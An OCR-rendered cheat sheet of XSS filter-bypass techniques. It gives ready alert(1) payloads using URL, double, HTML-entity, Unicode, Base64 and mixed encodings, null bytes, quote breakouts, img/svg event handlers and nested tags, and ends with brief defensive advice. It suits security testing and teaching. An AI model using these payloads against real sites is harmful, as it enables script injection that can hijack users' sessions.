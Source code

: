 Bypassing character encoding in input fields is a common technique used by attackers to circumvent filters or sanitization mechanisms that encode or block special characters. Here are some techniques to bypass encoding in input fields:

### **1. Use URL Encoding**
- Encode characters into their URL-encoded form (`%xx`).◇ Example: `<script>` becomes `%3Cscript%3E`.


- Useful when applications decode encoded inputs before processing.◇ Payload: `%3Cscript%3Ealert(1)%3C%2Fscript%3E`.




### **2. Double URL Encoding**
- Encode the payload twice to bypass weak decoding mechanisms.▪ Example: `%3C` becomes `%253C`.


- Payload: `%253Cscript%253Ealert(1)%253C%252Fscript%253E`.


### **3. HTML Entity Encoding**
- Use HTML entities to represent characters.▪ Example: `<script>` becomes `&lt;script&gt;`.


- Payload: `&lt;script&gt;alert(1)&lt;/script&gt;`.


### **4. Unicode/UTF-8 Encoding**
- Use Unicode or UTF-8 representations of characters to bypass filters.▪ Example: `<script>` can be encoded as `\u003Cscript\u003E`.


- Useful for bypassing poorly implemented filters.▪ Payload: `\u003Cscript\u003Ealert(1)\u003C/script\u003E`.




### **5. Hexadecimal Encoding**
- Encode characters using hexadecimal notation.▪ Example: `<script>` becomes `&#x3C;script&#x3E;`.


- Payload: `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`.


### **6. Base64 Encoding**
- Encode the payload in Base64 and leverage decoding logic in the application.▪ Example: Base64 of `<script>alert(1)</script>` is `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`.


- Applications that decode Base64 can be exploited with this technique.


### **7. JavaScript Context Exploitation**
- Break out of encoded JavaScript contexts.▪ Example: Escape single or double quotes:- Input: `\";alert(1);//`
- Input: `'";alert(1);//`.






### **8. Null Byte Injection**
- Inject null bytes (`%00`) to terminate sanitization or encoding processes.▪ Example: `<script%00>alert(1)</script>`.




### **9. Mixed Encodings**
- Combine multiple encoding methods to evade filters.▪ Example: Use a mix of URL encoding, Unicode, and HTML entities:- Input: `%26%23x3C;script%26%23x3E;`.






### **10. Using Alternate Syntax or Tags**
- Use variations of script injection that may not be encoded:▪ `<img src=x onerror=alert(1)>`.
- `<svg/onload=alert(1)>`.




### **11. Breaking Input Validation Logic**
- Exploit applications that only encode specific characters:▪ Input: `<scr<script>ipt>alert(1)</scr</script>ipt>`.


- Break out of the input field context:▪ Example: `<"onclick=alert(1)//>`.




### **12. Custom Encodings**
- Use custom or proprietary encoding mechanisms specific to the application.


### **Defensive Recommendations**
- To protect against encoding bypasses, implement proper defenses:▪ Input validation: Allow only whitelisted characters.
- Output encoding: Encode data according to its context (e.g., HTML, JavaScript, URL).
- Use security libraries to sanitize inputs.




